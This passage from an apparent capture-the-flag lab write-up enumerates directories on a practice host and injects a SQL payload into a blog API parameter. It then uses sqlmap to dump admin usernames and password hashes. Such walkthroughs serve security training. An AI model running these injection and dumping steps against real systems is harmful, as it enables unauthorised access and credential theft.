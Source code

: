 Add them to `/etc/hosts`. Ex: `sudo nano /etc/hosts` , `10.10.148.12   api.vulnnet.thm` | add all of them.

---

## 3. Directory Enumeration on `admin1.vulnnet.thm`

```bash
gobuster dir -u http://admin1.vulnnet.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php
```

**Found directories:**

* `/fileadmin`
* `/typo3` (CMS login portal) 

---

## Discovering SQL Injection on the Blog API

* Browsed blog posts → observed JavaScript call to:

  ```
  http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1
  ```
* You have to view page source of the first blog post and scroll all the way down to the bottom to see the javascript call

* Testing for injection:

  ```bash
  curl "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' OR '1'='1"
  ```
---

## Automated SQL Injection with sqlmap

**List databases**:

   ```bash
   sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" --batch --dbs
   ```
   → Detected: `blog`, `information_schema`, `vn_admin`

**Enumerate `vn_admin.be_users` table**:

   ```bash
   sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 -D vn_admin --tables
   sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 -D vn_admin -T be_users --columns
   ```

**Extract `username` + `password` (Argon2 hash)**:

   ```bash
   sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 -D vn_admin -T be_users -C username,password --dump
   ```
